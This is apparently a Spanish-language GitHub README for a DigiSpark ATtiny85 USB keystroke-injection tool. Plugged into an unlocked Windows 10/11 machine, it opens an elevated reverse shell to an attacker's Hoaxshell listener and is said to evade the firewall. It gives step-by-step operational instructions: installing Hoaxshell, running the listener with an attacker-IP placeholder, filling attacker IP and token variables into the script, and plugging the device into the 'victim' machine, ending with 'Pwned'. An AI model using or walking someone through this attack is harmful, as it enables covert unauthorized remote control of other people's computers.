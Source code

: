 ## 📝 Descripción
> Script para **DigiSpark ATtiny85** que genera una shell inversa con permisos elevados desde una máquina Windows víctima hacia una máquina atacante, logrando evadir el firewall. 


## ⚙️ Funcionamiento
> El ataque se activa al conectar el dispositivo al puerto USB con la sesión iniciada: el DigiSpark emula un teclado e inyecta los comandos de forma automática, sin intervención del usuario, estableciendo la conexión con la máquina atacante la cual está escuchando solicitudes.


## 💻 Compatibilidad 
> Solo funciona correctamente bajo las siguientes condiciones:
- **Sistema operativo victima**: Windows 10/11
- **Sesión activa**: Escritorio desbloqueado y sesión iniciada
- **Distribucion de teclado victima**: Español Latam (Puedes configurar otra distribución siguiendo un paso adicional.)

 
## ✅ Requerimientos
1. Tener instalado Arduino IDE [Ver Arduino IDE](https://www.arduino.cc/en/software/)
2. Instala los drivers que se encuentran en la carpeta config del repositorio (también puedes buscarlos manualmente si lo prefieres)
3. Descargar e instalar DigiStump Board 1.6.7 a traves del Boards Manager de Arduino (Configuración de Arduino)
```
   https://raw.githubusercontent.com/digistump/arduino-boards-index/refs/heads/master/package_digistump_index.json
```
<img width="1006" height="672" alt="imagen" src="https://github.com/user-attachments/assets/8a467877-c94f-439b-af3d-14c5fcf3aba8" />

4. Este script fue creado para cambiar distribuciones de teclado, y es por esto que para que funcione debes copiar la carpeta DigisparkKeyboard del repositorio y pegarla en la siguiente ruta:
```
C:\Users\tu_usuario\AppData\Local\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\
```
*Con esto podremos cambiar la linea #define kbd_es_es del script .ino para usar la distribucion de teclado que gustes.*

5. Descargar e instalar la herramienta Hoaxshell de su repositorio oficial (Seguir los pasos del repositorio):
```
git clone https://github.com/t3l3machus/hoaxshell
```


## 🚀 Uso

### 1. Ejecutar Hoaxshell.py
```python
python3 ./hoaxshell.py -s IP_ATACANTE -r -H 'Authorization'
```

### 2. Copiar el token generado en $i y dejar ejecutandose.
![image](https://github.com/user-attachments/assets/8da49bb0-b57a-4613-9a5a-1bc4f6299157)


### 3. Abrir Arduino y seleccionar Digispark 16.5 Board.
<img width="858" height="131" alt="imagen" src="https://github.com/user-attachments/assets/3de241e0-7181-44e2-aa3a-a96a26e3e4c1" />

### 4. Dentro de Arduino, abrir el archivo .ino que se encuentra en la ruta script/script.ino del repositorio y modificar las siguientes variables:


- IP_AND_PORT_ATTACKER: Reemplazar por tu IP y puerto de atacante
- TOKEN: Reemplazar por el token generado por hoaxshell
- TOKEN_PART1: Reemplazar con la primera parte del token
- TOKEN_PART2: Reemplazar con la segunda parte del token
- TOKEN_PART3: Reemplazar con la tercera parte del token
- Opcional:  #define kbd_es_es Puedes cambiar esta linea revisando las opciones en config/DigisparkKeyboard/Readme.md

![image](https://github.com/user-attachments/assets/9418035f-eaa7-4b05-ae3b-a7bd19dd68d6)



### 5. Compilar el script y conectar el ATTINY 85. Una vez hecho esto, el USB estara listo para el ataque.
<img width="2531" height="1378" alt="imagen" src="https://github.com/user-attachments/assets/6d478ecd-7554-4342-a291-28438e7848d8" />


### 6. Conectar el dispositivo a la máquina victima y esperar la Respuesta. Si todo sale bien recibiremos la terminal.

   
![image](https://github.com/user-attachments/assets/5c8ce65b-5abe-4dae-a521-7f1f90dc95a5)


### 7. Pwned

